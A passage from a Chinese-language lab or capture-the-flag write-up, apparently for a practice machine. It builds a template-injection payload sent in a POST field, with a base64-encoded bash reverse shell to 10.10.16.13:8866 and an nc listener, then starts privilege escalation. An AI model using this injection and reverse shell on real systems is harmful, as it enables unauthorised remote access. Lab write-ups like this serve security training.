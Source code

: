 ```
其余恶意代码=echo "[payload]" | base64 -d | bash
```

还没结束呢，在传参中url编码会自动忽略空格（该死的url！！），所以我们要用“+”来代替上述语句

就有

```
其余恶意代码=echo+[payload]|+base64+-d+|+bash
```

此时我们再将paylaod带入其中就有

```
其余恶意代码=echo+IyEvYmluL2Jhc2gKYmFzaCAtaSA=PiYgL2Rldi90Y3AvMTAuMTAuMTYuMTMvODg2NiAwPiYxIA==|+base64+-d+|+bash
```

再一层层套上去，就有

```
恶意代码=system("echo+IyEvYmluL2Jhc2gKYmFzaCAtaSA=PiYgL2Rldi90Y3AvMTAuMTAuMTYuMTMvODg2NiAwPiYxIA==|+base64+-d+|+bash");
```

再往前带入就有

```
aaa%0a<%25=system("echo+IyEvYmluL2Jhc2gKYmFzaCAtaSA=PiYgL2Rldi90Y3AvMTAuMTAuMTYuMTMvODg2NiAwPiYxIA==|+base64+-d+|+bash);%25>;
```

这就是最终的payload了，再代入post数据包中

```
category1=aaa%0a<%25=system("echo+IyEvYmluL2Jhc2gKYmFzaCAtaSA=PiYgL2Rldi90Y3AvMTAuMTAuMTYuMTMvODg2NiAwPiYxIA==|+base64+-d+|+bash");%25>;&grade1=1&weight1=20&category2=bb&grade2=1&weight2=20&category3=cc&grade3=1&weight3=20&category4=dd&grade4=1&weight4=20&category5=ee&grade5=1&weight5=20
```

然后开启一个终端输入

```
nc -nlvp 8866
```

发送！

![截图 2024-03-05 17-29-43](https://s2.loli.net/2024/03/05/AYOSi5r6HPedhnW.png)

shell成功反弹！！！成功获得立足点！

## 四、提权

这里直接去到/home/susan目录找到user.txt

![截图 2024-03-05 17-32-09](https://s2.loli.net/2024/03/05/QVFhezJxvkiHqAj.png)

此时sudo -l执行不了，需要password，我们用一用万能的find命令看看
